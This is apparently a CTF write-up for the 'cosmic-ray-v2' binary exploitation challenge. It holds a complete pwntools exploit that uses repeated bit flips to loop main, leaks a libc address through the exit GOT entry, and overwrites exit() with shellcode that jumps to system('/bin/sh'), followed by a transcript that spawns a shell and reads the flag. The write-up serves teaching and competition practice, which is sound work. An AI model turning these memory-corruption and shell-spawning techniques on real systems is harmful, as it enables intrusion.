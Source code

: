 # cosmic-ray-v2

not too difficult pwn chall

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/a23972c7-48e0-4ee8-9ab2-7991f32a26e4)

see [cosmic-ray-v2.zip](./cosmic-ray-v2.zip)

## solution

```console
quasar@quasar098:~/Warehouse/cosmic-ray-v2$ checksec cosmicrayv2
[*] '/mnt/c/Users/Lav Patel/IdeaProjects/pwnstuff/cosmic-ray-v2/cosmicrayv2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

this is a sequel to the original cosmic-ray challenge in sekai ctf, which i wasn't able to complete

the difference this time is that there is no win function

the way that this program works is that it opens it's own /proc/<pid>/mem to flip one bit of data, just like a cosmic ray would

the first step here is to get multiple bit flips, because one on it's own doesn't do much.

to do that, we can flip the jmp instruction to go back to the main function because it is called at the end of the cosmic_ray function.

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/d1b117ce-73a5-4b38-8bdf-b437a0bf82fd)

notably, we modify the `0x4015e2` byte (`05` originally), to be `0D` by flipping the 4th bit from the right (xor with `00001000`). thanks to 0xM4hm0ud for figuring that one out, i would not have been able to find it

this brings us back to the start of the main function after each cosmic ray bit flip, allowing multiple bit flips, or arbitrary memory overwrites

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/e58e17e2-2102-4440-9d61-521da59ea392)

```py
from pwn import *

p = remote("vsc.tf", 3047)
# p = process(["./cosmicrayv2"])
# p = gdb.debug(["./cosmicrayv2"], gdbscript="break *0x4011a4\nc\n")

libc = ELF("./libc-2.35.so")
# libc = ELF("./local-libc.so")

p.sendlineafter(b'through:\n', b'0x4015e2')
p.sendlineafter(b':\n', b'4')
```

the next step is to leak the libc address by flipping any bit of any GOT function twice, causing no change, but reading a byte.

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/7fc5afa1-d23d-4763-a2bb-391ea61118f3)

```py
exit_addr = 0
exit_got_addr = 0x403fe8

# leak libc address
for _ in range(8):
    p.sendline(f'{hex(exit_got_addr + _)}'.encode('ascii'))
    p.sendline(b'0')
    p.sendline(f'{hex(exit_got_addr + _)}'.encode('ascii'))
    p.sendline(b'0')

    p.recvuntil(b'-----------------\n')
    n = int(p.recvline().decode('ascii').replace("|", ''), 2)
    p.recvuntil(b'-----------------\n')
    exit_addr = exit_addr | (n << 8 * _)
```

here i chose the exit() function because it is only called when the bit we want to change not between 0 and 7 inclusive, meaning we can trigger exit(1) whenever we want.
this is important later.

once i have the exit address on libc, we can use libc offsets to get the address of the system function in libc, as well as the address of the `/bin/sh` string in libc

```py
bin_sh_addr = exit_addr - libc.symbols['exit'] + 0x1d8698
system_addr = exit_addr - libc.symbols['exit'] + libc.symbols['system']
```

the next step is to overwrite the exit() function in libc with shellcode to jump to system. i couldn't get a raw shellcode working, so this is the next best thing

```py
def write_byte(loc: int, byte2: int):
    p.sendline(hex(loc).encode('ascii'))
    p.recvuntil(b'-----------------\n')
    og = int(p.recvline().decode('ascii').replace("|", ''), 2)
    p.sendline(b'0')
    p.sendline(hex(loc).encode('ascii'))
    p.recvuntil(b'-----------------\n')
    p.sendline(b'0')
    need_xor = og ^ byte2
    print(bin(og), bin(byte2), bin(need_xor))
    index = 0
    while need_xor:
        if need_xor & 1:
            p.sendline(hex(loc).encode('ascii'))
            p.sendline(str(7-index).encode('ascii'))
            p.recvuntil(b'-----------------\n')
        need_xor = need_xor >> 1
        index += 1
```

above is as function i made to overwrite a byte by seeing what bits need to be flipped to get a desired result

also, one of the worst things about this challenge was that choosing the `0` bit in the program meant modifying the most significant bit of the byte, which messed me up because i thought it was the 7th (`2**7` -> 128)

```py
code = b'\x48\xbf' + p64(bin_sh_addr) + b'\xe9' + p32(system_addr-exit_addr-0xf)
for index, byte in enumerate(code):
    write_byte(exit_addr+index, byte)

print(hex(bin_sh_addr), hex(system_addr), hex(exit_addr), hex(system_addr-exit_addr))

p.sendline(b'0x403fa8')
p.sendline(b'8')

p.interactive()
```

i asked jat gpt to write this shellcode for me because believe it or not it is surprisingly difficult to find an accurate assembly to byte table online because most are incorrect or for a different cpu or architecture or something idk.

after that, i change a random address with an invalid bit, triggering the exit(1)

anyways, the code that overwrites exit(1) moves the address of the string `/bin/sh` in libc to the register `rdi`, which is the first argument register

then, i jump the amount of bytes required to get to the system function in libc. then, i have a shell

```console
quasar@quasar098:~/Warehouse/cosmic-ray-v2$ python3 solve.py
[+] Opening connection to vsc.tf on port 3047: Done
[*] '/mnt/c/Users/Lav Patel/IdeaProjects/pwnstuff/cosmic-ray-v2/libc-2.35.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
0b11110011 0b1001000 0b10111011
0b1111 0b10111111 0b10110000
0b11110 0b10011000 0b10000110
0b11111010 0b1100110 0b10011100
0b1010000 0b1110 0b1011110
0b1011000 0b10010001 0b11001001
0b10111001 0b11000110 0b1111111
0b1 0b1111111 0b1111110
0b0 0b0 0b0
0b0 0b0 0b0
0b0 0b11101001 0b11101001
0b10111010 0b1100001 0b11011011
0b1 0b10110111 0b10110110
0b0 0b0 0b0
0b0 0b0 0b0
0x7fc6910e6698 0x7fc690f5ed60 0x7fc690f535f0 0xb770
[*] Switching to interactive mode
|1|0|0|0|0|0|0|0|

Enter the bit position to flip:

Bit succesfully flipped! New value is 0

Enter an address to send a cosmic ray through:

|0|1|2|3|4|5|6|7|
-----------------
|0|0|1|0|0|0|0|0|

Enter the bit position to flip:
$ ls
cosmicrayv2
flag.txt
ld-2.35.so
libc-2.35.so
$ cat flag.txt
vsctf{m3_wh3n_c0mp1l1ng_w1th_c4n4ry_1s_m0r3_vuln3r4bl3_th4n_c0mp1l1ng_w1th0ut}
$ ^C
[*] Interrupted
[*] Closed connection to vsc.tf port 3047
```
